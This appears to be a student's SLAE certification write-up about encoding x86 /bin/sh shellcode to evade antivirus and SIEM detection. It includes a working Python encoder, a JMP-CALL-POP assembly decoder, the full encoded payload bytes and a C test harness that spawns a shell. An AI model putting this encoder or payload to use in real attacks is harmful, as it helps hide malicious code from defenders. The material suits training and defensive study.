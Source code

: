 **Assignment 4**

Custom encoder and decoder for bin/sh shellcode

**Introduction**

	A shellcode encoder is used to modify an existing shellcode to make it harder to detect by AV engines / SIEM tools 

	The encoder itself doesn’t provide any real security however since the obfuscation scheme is built into the code and is therefore reversible by anyone who has access to the encoded shellcode. This should not be confused with encryption, where security is based on the key and not the secrecy of the encryption scheme


**Methodology**

	Following is the Encoding schema being used in the order

		Each byte of the /bin/sh shellcode is decremented by 1
		NOT operation on each bytes
		Each byte is Xor ed with 0xbb


	This Encoded payload is generated using a python script

	The Decoding schema being used in the order
		Each byte is Xor ed with 0xbb
		NOT operation on each bytes
		Each byte is incremented by 1
	

	Following script takes the shellcode and perform the above mentioned encoding operation for each byte.
		EncoderScript.py
		#!/bin/python3

		import socket
		import sys

		sc_original = (b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
									#/bin/sh shellcode
									#shellcode is considered as a byte array
		enc = ""
		enc2= ""

		for c in bytearray(sc_original):
        	 a = c - 0x01            	#each byte is decremented by 1
        	 b = ~a                  	#NOT operation
        	 c = b^0xBB              	#XOR operation on each byte 
        								#based on premise A XOR B = C , C XOR B = A
        	 enc+= '\\x'
        	 enc+= "%02x" %(c & 0xff)

       	 	 enc2+= "0x"
        	 enc2+= "%02x," %(c & 0xff)


		print("Encoded Payload:  ")
		print("----------------------")

		s2 = enc2.rstrip(',')
		print(s2)


		toor@ubuntu:~/Desktop/slae/Assignments/4$ python3 encodecreaterpy3.py
		Encoded Payload:
		----------------------
	0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b
		toor@ubuntu:~/Desktop/slae/Assignments/4$


	We have the encoded payload now 
	0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b

	a 0xbb is appended to the encoded shellcode to make the program easier ie appended 0xbb in the shellcode variable is used as a marker to pointout the end of the encoded payload. Now the payload would be .

	Its worth mentioning that A XOR A = 0 , so when you perform an xor operation make sure that the operator byte is not in the encoded payload
	
	Final Payload would be,
		0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b,0xbb

	Now ,we write a assembly program to decode this encoded shellcode 

		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ cat damn.asm
		global _start

		section .text

		_start:

        		jmp short step_1
		step_2:
        		pop edi

		decoder:

        		cmp byte [edi],0xbb
        		jz shellcode

        		xor byte [edi],0xbb  ;xor with bb
        		not byte [edi]       ;not operation
        		inc byte [edi]       ;inc byte

        		inc edi
        		jmp short decoder


		step_1:
        		call step_2
        	shellcode: db 0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b,0xbb
		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$


	Program starts with a jmp to step_1  and then a call to step_2
	The decoder uses the JMP CALL POP technique to push the address of the encoded shellcode on the stack. so when the call instruction is executed the address of the next instruction is put on to the stack on the premise that once the function is over ,the control is given back to the next instruction

	So the Address of the variable shellcode is put onto the stack and is poped on to edi

	Appended 0xbb in the shellcode variable is used as a marker to pointout the end of the encoded payload . A comparison operator is used here to check whether rhe operation is complete

	Each byte of "shellcode" will be undergoing decoder process ie

								xor with 0xbb
								not operation
								increment 
   	Once the process is over control is given to the shellcode address ,where the /bin/sh decoded shellcode is .


**Practical**

Extracting shellcode
	
	toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ objdump -d ./damn|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
	"\xeb\x10\x5f\x80\x3f\xbb\x74\x0f\x80\x37\xbb\xf6\x17\xfe\x07\x47\xeb\xf1\xe8\xeb\xff\xff\xff\x74\xfb\x0b\x23\x29\x6a\x36\x23\x23\x6a\x6a\x25\x2c\xcc\xa6\x0b\xcc\xa5\x16\xcc\xa4\xeb\x4e\x88\x3b\xbb"
	
	The shellcode is copied onto a shellcode test c wrapper program t give control to the shellcode

		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ cat shellcodetest.c
		#include<stdio.h>
		#include<string.h>

		char code[] = 	"\xeb\x10\x5f\x80\x3f\xbb\x74\x0f\x80\x37\xbb\xf6\x17\xfe\x07\x47\xeb\xf1\xe8\xeb\xff\xff\xff\x74\xfb\x0b\x23\x29\x6a\x36\x23\x23\x6a\x6a\x25\x2c\xcc\xa6\x0b\xcc\xa5\x16\xcc\xa4\xeb\x4e\x88\x3b\xbb";

		int main(void)
		{
        	printf("shellcode length: %d\n",strlen(code));
        	(*(void(*)()) code)();
		}


		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ nano shellcodetest.c
	
		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ gcc -fno-stack-protector -z execstack shellcodetest.c -o shellcode
	
		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ ./shellcode
		shellcode length: 49
		$ id
		uid=1000(toor) gid=1000(toor) groups=1000(toor),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
	Works like a charm!

**Github Repository**

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1509
